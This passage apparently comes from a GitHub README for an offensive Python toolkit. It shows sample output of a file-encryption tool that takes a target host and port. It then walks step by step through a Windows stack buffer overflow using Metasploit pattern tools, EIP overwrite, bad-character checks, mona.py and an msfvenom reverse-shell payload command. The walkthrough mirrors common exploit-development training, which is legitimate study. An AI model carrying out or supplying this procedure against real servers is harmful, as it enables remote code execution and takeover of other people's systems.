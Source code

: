
**Example outputs of some of the scripts!** <br />
    1. cryptoraptor.py output: <br />
       Enter the name for the directory to store keys: encryption_keys <br />
       Enter the target host IP address: 192.168.1.100 <br />
       Enter the target port: 12345 <br />
       Choose an option: <br />
       1. Encrypt file(s) <br />
       2. Decrypt file(s) <br />
       3. Exit <br />
       Enter your choice: 1 <br />
       Enter the number of files to encrypt: 1 <br />
       Enter the file path to encrypt: /path/to/file.txt <br />
       Encryption of /path/to/file.txt complete. <br />
       Choose an option: <br />
       1. Encrypt file(s) <br />
       2. Decrypt file(s) <br />
       3. Exit <br />
       Enter your choice: 2 <br />
       Enter the number of files to decrypt: 1 <br />
       Enter the file path to decrypt: /path/to/file.txt.enc <br />
       Enter the path to the private key: /path/to/private_key.pem <br />
       Decryption of /path/to/file.txt.enc complete. <br />
       Choose an option: <br />
       1. Encrypt file(s) <br />
       2. Decrypt file(s) <br />
       3. Exit <br />
       Enter your choice: 3 <br />
       Exiting... <br />

# Fun with Exploitation <br />
![Screenshot 2024-04-19 084402](https://github.com/FishyStix12/WHPython_v1.02/assets/102126354/173dc5be-6bb2-4549-9a10-593cc51296e3) <br />
**XtremeGui.py** <br />
**Important Note: Please use statrun.spk in the following syntax - `generic_send_tcp <Target IP> <Target Port> statrun.spk SKIPVAR SKIPSTR`**

**Important Note:** <br />
After running fuzzywuzzy.py run this command in linux to create the random bytes of data: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb <byte size>`, then run the WIns_overflow.py script with these randomly generated bytes to cause a buffer overflow in the stack, then record the random bytes that have overwritten the target EIP Register, and find the offset of those bytes. Then run the following command to find the exact offset of the random bytes in the EIP register: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337`. Then run the WIns_OvrWrte.py script to check whether or not you can control the EIP registar. (Which we will know if the EIP Registar is overwritten with 4 Ds (Which is an ASCII value of 44). Then run the script with the sketchcharacters.py script to send badchars along with the shellcode. Then in immunity debugger click on the ESP register value and click follow in dump to see if any of the badchars create any problems in the shellcode. If there are no found errors with the badchars then use mona.py modules in Immunity Debugger to see the protection settings of various modules (Signified by Falses). Then use the WIn_Jump.py to send the x86 architecture stores values in the Little Endian format for the Return Address of the vulnerable Modules to the target EIP Registar. Then run `msfvenom -p <payload> (ex: windows/shell_reverse_tcp) LHOST=<IP address> LPORT=<port> EXITFUNC=thread -f <file type> (ex: c) -a <architecture> (ex: x86) -b <bad characters> (ex: “\x00”)`. Then run the WIn_shellcode.py script to inject the generated shellcode into the EIP register and exploit the target vulnerable server. For more information please use the link below: <br />
https://infosecwriteups.com/exploiting-a-windows-based-buffer-overflow-e4d1b6f6d5fb <br />
<br />
**The Following List gives a short description of all the scripts in this group:** <br />
